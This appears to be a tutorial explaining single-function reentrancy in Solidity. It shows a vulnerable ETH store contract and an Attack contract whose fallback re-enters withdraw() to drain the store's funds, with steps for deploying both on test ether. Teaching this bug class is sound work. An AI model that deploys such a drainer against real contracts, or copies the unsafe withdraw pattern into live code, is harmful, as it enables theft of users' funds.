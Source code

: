 ## Single-Function Reentrancy

This is a vulnerability where a function within the contract can be called multiple times in quick successions before the first execution of that function completes. This can lead to loss of funds or unexpected behavior within the contract. Lets start by a theoretical example, Imagine a scenario where a function in a smart contract makes an external call to another contract that is not trusted, if the function does't complete its execution before the external contract calls back into the initial contract function and the function is not designed to handle the call properly, it might execute the same function again while the same function is ongoing. Tricky right, enough with the stories lets look at a coding example.

## Example 1

Below is a contract where you can deposit and withdraw ETH, lets see how the contract can be exploited.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract VulnerableStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

   // get the balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

Good now that our users are able to interact with our contract by withdrawing and depositing lets see how we can get all the money out of the contract.

```solidity

contract Attack {
   VulnerableStore public vulnerableStore;
    uint256 constant public AMOUNT = 1 ether;

    constructor(address _vulnerablestoreAddress) {
        vulnerableStore = VulnerableStore(_vulnerablestoreAddress);
    }

    // Fallback is called when VulnerableStore sends Ether to this contract.
    fallback() external payable {
        if (address(vulnerableStore).balance >= AMOUNT) {
            vulnerableStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        vulnerableStore.deposit{value: AMOUNT}();
        vulnerableStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}


```

**Yyeeeees** we did it but lets now look at what acctually happened. How did we manage to perform the exploit. Our attack contract was able to withdraw all the funds. Below are the steps of how the functions were executed 
1. users are able to deposit using the deposit function. so now lets assume that the contract has funds
2. An attacker deploys the attack function and executes the attack function this function will deposit ETH in our vulnerable store then it will initiate the withdraw function as below

```solidity

function attack() external payable {
    require(msg.value >= AMOUNT) // in our case AMOUNT is some value of ETH say 1 ether
    vulnerableStore.deposit{value: AMOUNT}(); // this is the amount that will be deposited in our VulnerableStore since we can only withdraw if we have some ETH
    vulnerableStore.withdraw();

}

```

**NOTE** If money is sent in our Attack contract the fallback function will be triggered since we received some ether. Why fallback -> when a contract receives ether the fallback and the receive function are triggered, in our case in the fallback function we check that the balance of the vulnerable store is greater than the amount  and call the withdraw again

**To use and run the code snippet first deploy the VulnerableStore contract deposit some test ether, then you can get its Address and deploy the attack contract with the address and try calling the attack function by yourself so you can see the process**